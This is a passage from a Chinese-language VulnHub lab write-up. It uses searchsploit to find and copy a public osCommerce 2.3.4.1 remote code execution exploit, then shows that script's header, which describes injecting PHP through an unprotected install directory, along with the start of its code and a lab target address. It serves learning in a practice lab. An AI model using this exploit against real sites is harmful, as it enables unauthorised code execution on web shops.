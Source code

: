 **搜索cms漏洞**

`searchsploit osCommerce`

![image-20220824135357807](vulnhub靶场.assets/image-20220824135357807.png)









## **漏洞利用**

~~~
 searchsploit -m php/webapps/44374.py
~~~

查看exp内容：

~~~python
# Exploit Title: osCommerce 2.3.4.1 Remote Code Execution
# Date: 29.0.3.2018
# Exploit Author: Simon Scannell - https://scannell-infosec.net <contact@scannell-infosec.net>
# Version: 2.3.4.1, 2.3.4 - Other versions have not been tested but are likely to be vulnerable
# Tested on: Linux, Windows

# If an Admin has not removed the /install/ directory as advised from an osCommerce installation, it is possible
# for an unauthenticated attacker to reinstall the page. The installation of osCommerce does not check if the page
# is already installed and does not attempt to do any authentication. It is possible for an attacker to directly
# execute the "install_4.php" script, which will create the config file for the installation. It is possible to inject
# PHP code into the config file and then simply executing the code by opening it.


import requests

# enter the the target url here, as well as the url to the install.php (Do NOT remove the ?step=4)
base_url = "http://10.0.2.16/catalog/"
target_url = "http://10.0.2.16/catalog/install/install.php?step=4"

~~~